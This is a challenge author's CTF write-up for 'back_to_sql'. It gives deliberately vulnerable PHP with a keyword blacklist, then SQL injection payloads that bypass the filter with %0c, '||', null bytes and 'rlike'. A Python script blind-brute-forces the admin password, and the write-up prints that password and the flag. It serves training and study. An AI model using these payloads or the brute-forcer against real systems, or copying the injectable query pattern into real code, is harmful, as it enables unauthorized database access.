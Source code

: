 # back_to_sql

This is a 400 pointer challenge I made for the InCTF-National round.

you can get the source code from [here](https://github.com/chsantoshkumar211/CTFs/tree/master/InCTF/back_to_sql)

```php
<?php
error_reporting(0); 
include "./config.php"; 
include "./flag.php"; 
if(isset($_GET['bypass']) && !iconv("UTF-8","UTF-8//IGNORE",$_GET['bypass'])) exit(":P LOL!!");
if(isset($_GET['bypass']) && strlen($_GET['bypass'])>1) exit(":(");
if(preg_match('/ |\n|\r|\t/i', $_GET['bypass'])) exit(":(");
$black_list = "/admin|guest|&|limit|by|as|substr|mid|or|not|ascii|char|union|select|greatest|%00|\"|benchmark|"; 
$black_list .= "=|_|in|<|>|sqlauth| |-|_|\.|\(\)|regexp|and|if|database|where|concat|insert|havin|#|0x|0b|sleep/i"; 
if(preg_match($black_list, $_GET['pass'])) exit(":P");
if(preg_match('/\b=\b/i', $_GET['pass'])) exit("No =");
if(preg_match('/\bregexp\b/i', $_GET['pass'])) exit("No regexp");
if(preg_match('/\blike\b/i', $_GET['pass'])) exit("No like");
$query = "select user from back_to_sql{$_GET['bypass']}where user='guest' and pw='{$_GET[pass]}'"; 
$result = @mysql_fetch_array(mysql_query($query)); 
if($result['user'])
{
	echo "<h1>Hello ".$result['user']."</h1>";
}
$admin_info =  @mysql_fetch_array(mysql_query('select * from back_to_sql where user="admin"')); 
echo "<h2>query : {$query}</h2>";
if(($admin_info['pw']) && $admin_info['pw']===$_GET['pass']) 
{ 
    echo $flag;
} 
highlight_file(__FILE__);
?> 
```

## Solution

#### $_GET['bypass']
So on looking to the source code, we can understand that we have to give a space as "bypass" between "back_to_sql" and "where" and the length of that argument should not be greater that one. So for that, we can use ```%0c```  or  ```%0b```.

#### $_GET['pass']
Coming to "pass" here is the place where we have to inject our query.
we can use ['](single quote). 

```
pass='%0c||%0c1;%00
```

![sql](img/CTF/back_to_sql/sql1.png)

gives us "welcome guest" so we need to query the database in the place of [1] but we can't use [like, regexp and =].

As Einstein says 
```
Look deep into nature, and then you will understand everything better.
```
If you observe this snippet closely you can understand that it's just filtering the work "like" alone but if the word "like" is concatenated with any other character this snippet will not work E.g. ``` rlike ```

```rlike``` Woks just like ```regexp```

```PHP
if(preg_match('/\blike\b/i', $_GET['pass'])) exit("No like");
```

Now we can use rlike to brute force the admin password by querying the database in the place of [1]. So the injection : 
```
pass='%0c||%0c(pw%0crlike%0c'^1');%00
.
pass='%0c||%0c(pw%0crlike%0c'^3');%00
```
![sql](img/CTF/back_to_sql/sql2.png)

for  ```3```  the page responds back with "Hello admin".Hence our injection is working, So let's write a python script to brute force the admin password

```python
import requests
pay='1234567890abcdefghijklmnopqrstuvwxyz'
url = "http://52.66.243.74?bypass=%0c&pass='%0c||%0c(pw%0crlike%0c'^"
password = ""
for i in range(0,21):
    for j in pay:
        re = requests.get(url+password+str(j)+"');%00")
        if "Hello admin" in re.text:
            password = password + str(j)
print(password)
```

This gives us the admin password as : 3c721982f3edf4d95ced

![sql](img/CTF/back_to_sql/sql3.png)

On submittig the password you will get the flag.

flag : ```inctf{byp4s5ing_filt3r5_is_v3ry_3asy!!}```